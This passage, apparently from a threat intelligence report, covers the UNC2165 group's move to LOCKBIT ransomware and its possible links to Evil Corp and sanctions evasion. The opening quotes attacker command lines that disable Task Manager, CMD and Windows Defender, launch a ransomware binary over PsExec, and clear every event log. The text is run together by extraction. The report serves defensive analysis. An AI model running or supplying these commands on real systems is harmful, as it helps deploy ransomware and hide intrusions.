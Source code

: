 REG_DWORD /d 1reg add "hklm\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\system" /f /v "LocalAccountTokenFilterPolicy" /t REG_DWORD /d 1reg add "HKLM\Software\Policies\Microsoft\Windows Defender\UX Configuration"  /v "Notification_Suppress" /t REG_DWORD /d "1" /freg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\System" /v "DisableTaskMgr" /t REG_DWORD /d "1" /freg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\System" /v "DisableCMD" /t REG_DWORD /d "1" /freg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\System" /v "DisableRegistryTools" /t REG_DWORD /d "1" /freg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v "NoRun" /t REG_DWORD /d "1" /fFigure 8: Sample script to execute LOCKBIT binarycd c:\&PsExec.exe -accepteula -d -h -high -u .\<USERNAME> -p "<PASSWORD>" c:\<RANSOMWARE_BINARY>.execd c:\&PsExec.exe -accepteula -d -h -i -high -u .\<USERNAME> -p "<PASSWORD>" c:\<RANSOMWARE_BINARY>.execd c:\&PsExec.exe -accepteula -d -h -u .\<USERNAME> -p "<PASSWORD>" c:\<RANSOMWARE_BINARY>.execd c:\&PsExec.exe -accepteula -d -h -i -u .\<USERNAME> -p "<PASSWORD>" c:\<RANSOMWARE_BINARY>.exetasklist | findstr /i <RANSOMWARE_BINARY> > \\<REDACTED>\<REDACTED>\<REDACTED>\%COMPUTERNAME%.txtcmd.exe /c "C:\Program Files\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -Allsc stop WinDefendsc config WinDefend start= disabledsc delete WinDefendfor /F "tokens=*" %%1 in ('wevtutil.exe el') DO wevtutil.exe cl "%%1"Possibly Affiliated Threat Actor Based on information from trusted sensitive sources and underground forum activity, we have moderate confidence that a particular actor operating on underground forums is affiliated with UNC2165. Additional details are available in Mandiant Advantage. Mandiant has previously highlighted a cluster of BEACON C&C services hosted on yalishanda's bulletproof hosting service that we believe is operated by a common threat actor. Information gleaned from trusted, sensitive sources revealed that account information associated with this client has also been used by the actor in underground forums. This actor’s underground forum activity is consistent with TTPs used in UNC2165 operations. In April 2022, the actor appeared to purchase VPN access to a wholesale distribution company with an annual revenue of $3 billion USD and has expressed interest in purchasing additional network accesses. Although less common, we have seen UNC2165 use suspected stolen credentials in intrusions.  Between December 2019 and August 2020, the actor posted at least twice on exploit[.]in seeking to purchase versions of Cobalt Strike.Beginning in July 2019, they have made several posts on exploit[.]in seeking services and tools for obfuscating malware to avoid detection.  We also identified a GitHub profile matching the actor’s username, and while the account’s activity is limited, it is consistent with UNC2165 operations. Most notably, the actor opened an issue for a project in which they included command line arguments showing that they were attempting to build a .csproj shellcode runner. UNC2165 used .csproj files extensively during this time period to deploy BEACON payloads and has leveraged .csproj files to deploy BEACON that are consistent with the project for which the issue was opened.Implications The U.S. Government has increasingly leveraged sanctions as a part of a broader toolkit to tackle ransomware operations. This has included sanctions on both actors directly involved in ransomware operations as well as cryptocurrency exchanges that have received illicit funds. These sanctions have had a direct impact on threat actor operations, particularly as at least some companies involved in ransomware remediation activities, such as negotiation, refuse to facilitate payments to known sanctioned entities. This can ultimately reduce threat actors' ability to be paid by victims, which is the primary driver of ransomware operations. The adoption of an existing ransomware is a natural evolution for UNC2165 to attempt to obscure their affiliation with Evil Corp. Both the prominence of LOCKBIT in recent years and its successful use by several different threat clusters likely made the ransomware an attractive choice. Using this RaaS would allow UNC2165 to blend in with other affiliates, requiring visibility into earlier stages of the attack lifecycle to properly attribute the activity, compared to prior operations that may have been attributable based on the use of an exclusive ransomware. Additionally, the frequent code updates and rebranding of HADES required development resources and it is plausible that UNC2165 saw the use of LOCKBIT as a more cost-effective choice. The use of a RaaS would eliminate the ransomware development time and effort allowing resources to be used elsewhere, such as broadening ransomware deployment operations. Its adoption could also temporarily afford the actors more time to develop a completely new ransomware from scratch, limiting the ability of security researchers to easily tie it to previous Evil Corp operations.It is plausible that the actors behind UNC2165 operations will continue to take additional steps to distance themselves from the Evil Corp name. For example, the threat actors could choose to abandon their use of FAKEUPDATES, an operation with well-documented links to Evil Corp actors in favor of a newly developed delivery vector or may look to acquire access from underground communities. Some evidence of this developing trend already exists given UNC2165 has leveraged stolen credentials in a subset of intrusions, which is consistent with a suspected member’s underground forum activity. We expect these actors as well as others who are sanctioned in the future to take steps such as these to obscure their identities in order to ensure that it is not a limiting factor to receiving payments from victims. Technical AppendixMITRE ATT&CK